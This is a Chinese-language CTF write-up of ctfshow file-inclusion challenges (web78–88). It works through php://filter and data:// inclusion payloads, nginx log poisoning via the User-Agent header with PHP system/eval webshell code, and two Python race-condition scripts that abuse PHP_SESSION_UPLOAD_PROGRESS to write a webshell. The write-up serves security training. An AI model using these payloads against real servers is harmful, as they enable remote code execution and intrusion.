


# ctfshow-web文件包含(web78-88)
[toc]

学习了大佬的总结文章：[文件包含总结](https://blog.csdn.net/qq_42181428/article/details/87090539?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522163818231816780264086483%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=163818231816780264086483&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-1-87090539.pc_search_result_control_group&utm_term=ctf%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB&spm=1018.2226.3001.4187)

开始做题

## web78 php://filter


```Plain Text
payload->url/?file=php://filter/read=convert.base64-encode/resource=flag.php
得到base64加密后的数据包，解密即可得flag
```
---
## web79 data://


**题目描述**

```php
 <?php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
} 
```
根据源代码可以得知把php字符给替换掉了，使用倒数第三个POC

```Plain Text
payload->url/?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs=
ps:decode(PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs=) = <?php system('cat flag.php');
```
---
## web80 nginx日志文件+cookie处执行命令
**题目描述**

比上一题多禁用了data，考虑看日志文件

```Plain Text
nginx 主要日志文件
Nginx的默认访问日志文件为 /var/log/nginx/access.log
Nginx的默认错误日志文件为 /var/log/nginx/error.log
PHP默认错误日志文件为 /var/log/php-fpm/www-error.log
```
大佬关于日志文件漏洞利用的文章：[日志文件漏洞利用](https://www.cnblogs.com/my1e3/p/5854897.html)

```Plain Text
如果访问一个不存在的资源时，如http://www.xxxx.com/<?php phpinfo(); ?>,则会记录在日志中，但是代码中的敏感字符会被浏览器转码，我们可以通过burpsuit绕过编码，就可以把<?php phpinfo(); ?> 写入nginx的日志文件，然后可以通过包含日志文件来执行此代码，
```


我们利用bp上传木马，然后连接传命令，结果是400Bad Request


使用curl试试

```powershell
curl -v "http://ba16ddfe-5c63-4f6c-8c55-ce3a5f93fae7.challenge.ctf.show/?<?php @eval($_POST\[1\]);?>"
```
也失败


利用bp放在cookie试试

```powershell
User-Agent: <?php phpinfo();?>
```
success!

直接在Cookie处执行代码

```powershell
User-Agent: <?php system('ls');?>
```
得到

```powershell
172.12.0.2 - - [30/Nov/2021:08:10:09 +0000] "GET / HTTP/1.1" 200 2291 "-" "fl0g.php index.php " 
```
由此

```powershell
User-Agent: <?php system('tac fl0g.php');?>
```
得到flag

---


## web82-86 session
条件竞争的两个代码模板

POC1

```python
import requests
import io
import threading

url='http://58405d42-f0fd-4831-9a8d-7ca10dcd98bc.challenge.ctf.show/'
sessionid='ctfshow'
data={
	"1":"file_put_contents('/var/www/html/2.php','<?php eval($_POST[2]);?>');"
}
#<?php eval($_POST[1]);?>
def write(session):
	fileBytes = io.BytesIO(b'a'*1024*50)
	while True:
		response=session.post(url,
			data={
			'PHP_SESSION_UPLOAD_PROGRESS':'<?php eval($_POST[1]);?>'
			},
			cookies={
			'PHPSESSID':sessionid
			},
			files={
			'file':('ctfshow.jpg',fileBytes)
			}
			)

def read(session):
	while True:
		response=session.post(url+'?file=/tmp/sess_'+sessionid,data=data,
			cookies={
			'PHPSESSID':sessionid
			}
			)
		resposne2=session.get(url+'2.php');
		if resposne2.status_code==200:
			print('++++++done++++++')
		else:
			print(resposne2.status_code)

if __name__ == '__main__':

	evnet=threading.Event()
	with requests.session() as session:
		for i in range(2):
			threading.Thread(target=write,args=(session,)).start()
		for i in range(2):
			threading.Thread(target=read,args=(session,)).start()

	evnet.set()

```


POC2

```python
#利用PHP_SESSION_UPLOAD_PROGRESS上传木马文件，而后POST请求session临时存储的文件执行木马，而后利用木马传入命令
import requests
import threading
import sys
session = requests.session()
sess='3plusa'
url="http://58405d42-f0fd-4831-9a8d-7ca10dcd98bc.challenge.ctf.show/"

data1 = {
    'PHP_SESSION_UPLOAD_PROGRESS':'<?php eval($_POST[1]);?>'
}

data2 = {
    '1':'system("ls");'
}

file={
    'file':'3+1 is my girlfriend'
}

cookies = {
    'PHPSESSID':sess
}

#上传木马文件
def write():
    while True:
        r = session.post(url,data=data1,files=file,cookies=cookies)

#利用木马文件上传命令
def read():
    while True:
        r = session.post(url+"?file=/tmp/sess_"+sess,data=data2)
        print(r.text)

threads = [threading.Thread(target=write),threading.Thread(target=read)]
for t in threads:
    t.start()
```


但此题尝试了二者都不行，尝试[表单上传session](https://blog.csdn.net/qq_46091464/article/details/108021053)


POC

```php
#poc.php
<!DOCTYPE html>
<html>
<body>
<form action="http://58405d42-f0fd-4831-9a8d-7ca10dcd98bc.challenge.ctf.show/" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="2333" />
    <input type="file" name="file" />
    <input type="submit" value="submit" />
</form>
</body>
</html>
<?php
session_start();
?>
```
大佬的wp：[wp](https://blog.51cto.com/u_15082392/3369049)

结合bp爆破进行条件竞争即可

---
